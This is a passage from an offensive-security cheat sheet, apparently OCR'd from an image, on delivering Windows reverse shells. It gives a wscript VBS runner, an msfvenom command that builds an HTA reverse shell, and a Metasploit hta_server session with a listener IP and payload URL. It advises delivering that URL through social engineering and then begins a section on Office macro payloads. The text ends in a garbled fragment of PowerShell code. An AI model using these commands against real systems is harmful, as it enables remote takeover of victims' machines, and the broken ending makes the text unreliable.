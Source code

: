 ```
wscript /e:VBScript shell.vbs.txt
```

#### HTA Reverse Shell

HTA stands for HTML application which is an HTML that executes whatever you want. You could manually create an `.hta` payload by using `ActiveXobject` but for simplicity you can use exploitation frameworks.

**With Msfvenom**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ip LPORT=port -f hta-psh -o shell.hta
```

Execute on the target and you will receive a shell

**With Metasploit**

```
msf6 > use exploit/windows/misc/hta_server
```

and then set the `LHOST` and `SRVHOST` to be the same

```
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37 LHOST => 10.8.232.37 

msf6 exploit(windows/misc/hta_server) > set LPORT 443 LPORT => 443 

msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37 SRVHOST => 10.8.232.37 

msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp payload => windows/meterpreter/reverse_tcp 

msf6 exploit(windows/misc/hta_server) > exploit 

[*] Exploit running as background job 0. 

[*] Exploit completed, but no session was created. 

msf6 exploit(windows/misc/hta_server) > 

[*] Started reverse TCP handler on 10.8.232.37:443 

[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta [*] Server started.
```

Copy the URL above and open it on the target or deliver it using some sort of social engineering.

#### Microsoft Office Macros

We can deliver payloads that return reverse shells using Macros in MS office. To start, create a new blank Microsoft document to create your first macro.

First, we need to open the Visual Basic Editor by selecting `view` → `macros`. The Macros window shows to create our own macro within the document.


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"